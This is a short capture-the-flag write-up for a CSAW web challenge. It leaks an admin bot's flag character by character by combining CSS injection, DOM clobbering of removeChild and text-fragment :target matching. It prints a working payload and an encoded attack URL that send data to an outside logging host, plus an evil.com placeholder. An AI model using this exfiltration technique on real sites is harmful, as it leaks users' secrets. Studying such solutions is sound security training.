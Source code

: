 1. The idea of this challenge is to utilize STTF fragments and the CSS :target selector to leak the flag
2. The CSP allows for style tags for CSS injection, and .setHTML (html sanitizer API) also allows inline styles, but the rainbowify() function messes up any styles we try to insert...
3. We utilize DOM clobbering to get rainbowify() to throw an error, and avoid messing up our inserted style
4. We can submit a link to the admin bot with something like:

```html
<form>z<input name="removeChild"></form><style>/*exfil here*/</style>
```
5. This causes `node.parentElement.removeChild()` to throw when it tries to rainbowify the text node `z`. And therefore, our style tag remains untouched.
6. The style tag can leak STTF results via something like:
```css
:target::before { content : url(//evil.com?leak=a) }
```
7. So, we submit a url to the adminbot with something like:
```
https://rainbow-notes.csaw.io/?note=%3Cform%3Ez%3Cinput%20name%3D%22removeChild%22%3E%3C%2Fform%3E%3Cstyle%3E%3Atarget%3A%3Abefore%20%7Bcontent%3A%20url(%2F%2Fhc.lc%2Flog2.php%3Fleak%3Da)%3B%7D%3C%2Fstyle%3E#:~:text=csawctf{a
```
and if we get a pingback, the first letter of the flag is `a`
8. We use this to brute force the flag char-by-char. There's no delay on the admin-bot, so we can invoke it many times. The flag format is known, so the max # of invocations would be 16*10